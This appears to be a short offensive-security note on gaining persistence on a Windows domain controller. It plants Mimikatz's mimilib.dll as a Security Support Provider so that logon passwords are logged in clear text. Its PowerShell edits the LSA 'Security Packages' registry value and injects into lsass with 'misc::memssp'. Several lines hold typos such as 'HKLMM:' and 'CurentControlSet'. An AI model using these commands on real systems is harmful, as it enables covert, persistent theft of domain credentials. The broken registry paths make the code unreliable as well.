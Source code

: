 ```yaml
---
tags:
  - persistence
cssclasses:
  - MimiKatz
  - Registry
---
```

- A Security Support Provider is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:
	- NTLM
	- Kerberos
	- WDigest
	- CredSSP
- Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server.
- We can use either of the ways:
	- Drop the mimilib.dll to system32 and add mimilib to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`

```powershell title:"Modify registry to add mimilib.dll as a Security Support Provider"
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'SecurityPackages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLMM:\SYSTEM\CurentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

```powershell title:"Inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable)"
Invoke-MimiKatz -Command '"misc::memssp"'
```

- All local logons on the DC are logged to `C:\Windows\System32\mimilsa.log`